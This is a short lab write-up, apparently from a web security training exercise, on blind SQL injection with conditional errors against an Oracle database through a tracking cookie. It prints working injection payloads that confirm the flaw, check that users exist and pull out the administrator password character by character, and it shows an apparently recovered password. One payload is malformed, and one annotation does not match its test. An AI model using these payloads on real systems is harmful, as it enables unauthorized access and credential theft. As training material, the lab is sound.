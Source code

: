 Lab #12 - Blind SQL injection with conditional errors

Vulnerable parameter - tracking cookie

End Goals:
- Output the administrator password
- Login as the administrator user

Analysis:

1) Prove that parameter is vulnerable

' || (select '' from dual) || ' -> oracle database

' || (select '' from dualfiewjfow) || ' -> error

2) Confirm that the users table exists in the database

' || (select '' from users where rownum =1) || ' 
-> users table exists

3) Confirm that the administrator user exists in the users table
' || (select '' from users where username='administrator') || ' 


' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ' 
-> Internal server error -> administrator user exists

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='fwefwoeijfewow') || ' 
-> 200 response -> user does not exist in database

4) Determine length of password

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || ' 
-> 200 response at 50 -> length of password is less than 50
-> 20 characters

5) Output the administrator password

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,,1)='a') || ' 
-> w is not the first character of the password


' || (select TO_CHAR(1/0) FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')|| '


wjuc497wl6szhbtf0cbf


script.py <url>